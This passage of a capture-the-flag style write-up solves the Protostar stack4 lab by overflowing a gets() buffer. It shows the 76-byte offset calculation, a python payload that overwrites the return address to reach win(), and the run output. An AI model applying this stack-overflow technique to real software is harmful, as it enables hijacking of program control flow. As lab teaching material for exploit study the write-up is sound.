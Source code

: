 <img src="/assets/img/post/2020-07-10-exploit-education-protostar-stack4/screenshot1.png" style="width: 70%" >

Right after the `gets()` which is the end of our main we return to the previous function. We can see this at `0x0804841d` in gdb. This uses the base pointer which is stored right after our stack and can be overwritten to change which function the return is going to navigate to. In order to do so we must do some math to figure out the number of bytes to change that value.

```python
>>> int('0xffffd46c', 16) - int('0xffffd420',16)
76
```
Now that we know it takes exactly 76 bytes to overwrite the base pointer value we can craft another file to change it.

```
python -c "print 'A'*76 + '\xf4\x83\x04\x08' " > buffer64Address
```
Now once we run it we can see that the return jumped to the `win()` function and we have solved the challenge.

```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostar$ ./stack4 < buffer64Address 
code flow successfully changed
Segmentation fault
```
